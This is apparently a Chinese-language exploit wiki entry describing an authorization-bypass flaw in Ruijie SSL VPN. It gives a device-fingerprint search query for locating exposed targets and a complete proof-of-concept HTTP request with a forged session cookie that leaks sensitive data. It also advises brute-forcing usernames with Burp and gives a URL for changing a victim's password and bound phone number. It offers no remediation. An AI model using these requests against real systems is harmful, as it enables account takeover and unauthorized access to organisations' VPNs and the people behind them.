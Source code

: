 # 

# 锐捷 SSL VPN 越权访问漏洞

## 漏洞描述

Ruijie SSL VPN 存在越权访问漏洞，攻击者在已知用户名的情况下，可以对账号进行修改密码和绑定手机的操作。并在未授权的情况下查看服务器资源

## 漏洞影响

```
Ruijie SSL VPN
```

## 网络测绘

```
icon_hash="884334722" || title="Ruijie SSL VPN"
```

## 漏洞复现

访问目标 http://xxx.xxx.xxx.xxx/cgi-bin/installjava.cgi



![](./images/202202110919224.png)

POC请求包如下

```plain
GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

其中注意的参数为

```plain
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

UserName 参数为已知用户名

在未知登录用户名的情况下 漏洞无法利用(根据请求包使用Burp进行用户名爆破)

![](./images/202202110920240.png)

用户名正确时会返回敏感信息

![](./images/202202110920291.png)

通过此方法知道用户名后可以通过漏洞修改账号参数

访问 http://xxx.xxx.xxx.xxx/cgi-bin/main.cgi?oper=showsvr&encode=GBK&username=liuw&sid=1&oper=showres

![](./images/202202110920639.png)

点击个人设置跳转页面即可修改账号信息

![](./images/202202110920944.png)

## 参考文章

https://mp.weixin.qq.com/s?__biz=MzU1NTkzMTYxOQ==&mid=2247484601&idx=1&sn=d6d6f4496243d98e688667faff137973
